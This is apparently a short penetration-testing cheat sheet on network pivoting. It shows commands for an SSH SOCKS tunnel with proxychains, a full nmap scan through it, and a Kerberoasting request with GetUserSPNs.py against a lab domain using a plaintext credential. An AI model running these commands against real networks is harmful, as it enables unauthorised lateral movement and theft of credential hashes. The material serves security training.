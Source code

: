 # Pivot

## Proxy Chains

`cat /etc/proxychains.conf` Note the port mentioned in last line.

We will utilize that port to bind

```
ssh -f -N -D <port above> <user>@<ip>
```

Now we can run any command while pivoting through

Ex-

```
proxychains nmap -p- -sCV <ip>
```

Kerberoasting attack

```
proxychains GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip <ip of machine we want to pivot to> -request
```

